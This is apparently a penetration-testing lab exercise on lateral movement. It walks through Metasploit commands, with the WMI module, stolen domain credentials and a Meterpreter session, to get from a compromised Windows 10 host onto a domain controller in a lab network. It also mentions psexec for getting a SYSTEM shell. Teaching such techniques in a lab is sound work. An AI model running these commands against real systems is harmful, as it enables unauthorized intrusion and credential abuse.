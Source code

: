 
### 05. Activity: Lateral Movement

For this demo, you'll use bbanner's credentials to move laterally from Windows 10 to WINDC01. 

**Note:** This requires a SYSTEM shell on the Windows 10 machine. If you do not have a SYSTEM shell, use `exploit/windows/smb/psexec` with `tstark`'s credentials to obtain one.

1. Perform lateral movement to WINDC01 by using WMI via Metasploit. First, ensure you're working from a SYSTEM level shell on the Windows 10 machine, then use the `exploit/windows/local/wmi` module.

	- `use exploit/windows/local/wmi`
	
2. Set the following parameters:
		
	- `set RHOSTS 172.22.117.10`

        - `set LHOST 172.22.117.100`
	
	- `set SESSION [ID of the active Meterpreter session running as SYSTEM]`
	
	- `set SMBDomain megacorpone`
	
	- `set SMBUser bbanner`
	
	- `set SMBPass Winter2021`
	
	And run the payload:
	
	- `run -j`

	 ![A screenshot depicts the module settings.](Images/wmioptions.PNG)	
	
3. Run the exploit. It may give an error, but should return another Meterpreter session on the WINDC01 machine.
